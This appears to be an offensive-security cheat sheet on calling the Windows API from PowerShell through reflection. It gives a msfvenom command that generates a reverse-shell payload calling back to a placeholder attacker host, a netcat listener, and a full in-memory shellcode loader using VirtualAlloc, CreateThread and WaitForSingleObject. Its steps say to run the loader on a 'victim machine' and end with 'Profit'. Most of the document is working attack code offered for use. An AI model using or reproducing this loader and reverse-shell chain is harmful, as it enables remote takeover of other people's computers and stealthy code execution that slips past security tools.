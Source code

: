 # Windows Application Programming Interface (API)

Windows API: 

The Windows Application Programming Interface (API) allows programs to interact with the underlying operating system, giving them access to essential system-level functions such as memory management, file operations, and networking. It serves as a bridge between the application and the operating system, enabling efficient resource handling. The Windows API is crucial because many exploitation techniques and malware rely on it to manipulate processes, allocate memory, and execute shellcodes. Common Windows API functions frequently used by malicious actors include VirtualAlloc, CreateThread, WaitForSingleObject, etc.

## Techniques

Accessing Windows API through PowerShell Reflection: 

Windows API via PowerShell Reflection is an advanced technique that enables dynamic interaction with the Windows API from PowerShell. Instead of relying on precompiled binaries, PowerShell Reflection allows attackers to call Windows API functions directly at runtime. This will enable them to manipulate low-level system processes, making it a primary tool for bypassing security mechanisms, interacting with the operating system, and executing code stealthily.

## Tools

###  msfvenom

### Example usage:

#### 1) Generate shellcode that will run using powershell

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f powershell

#### 2) Setup listener

    nc -lvnp ATTACKER_PORT

#### 3) Find a way to run this code snippet on victim machine. Code is in C#

    $VrtAlloc = @"
    using System;
    using System.Runtime.InteropServices;

    public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
    }
    "@

    Add-Type $VrtAlloc 

    $WaitFor= @"
    using System;
    using System.Runtime.InteropServices;

    public class WaitFor{
     [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
    }
    "@

    Add-Type $WaitFor

    $CrtThread= @"
    using System;
    using System.Runtime.InteropServices;

    public class CrtThread{
     [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
    }
    "@
    Add-Type $CrtThread   

    [Byte[]] $buf = SHELLCODE_PLACEHOLDER
    [IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
    $thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
    [WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")

#### 4) Profit
